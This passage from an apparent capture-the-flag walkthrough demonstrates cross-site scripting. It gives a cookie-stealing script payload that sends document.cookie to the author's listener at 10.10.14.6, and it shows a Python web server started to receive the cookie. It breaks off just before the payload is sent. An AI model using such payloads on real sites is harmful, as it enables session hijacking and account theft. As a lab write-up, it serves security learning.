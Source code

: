 That's XSS:

![](/img/image-20240711144200954.png)

#### Cookie Steal

The simplest XSS payload would to steal the cookie from whoever is
looking at the report. I'll add a simple cookie stealer:



    <script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>



This will add a new `<img>` tag to the page with a source URL on my
server that includes the user's cookie. For this to work the cookie has
to not be configured as `HttpOnly`, which Firefox dev tools shows is
False:

![](/img/image-20240712094756025.png)

I'll start a Python webserver using `python -m http.server 80`. I have
given my `python` binary `cap_net_bind_service` so it can listen on low
ports without root. I'd need to run `sudo` without that. Also, my
`python` is Python3.



    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



Now in repeater I'll send the payload:
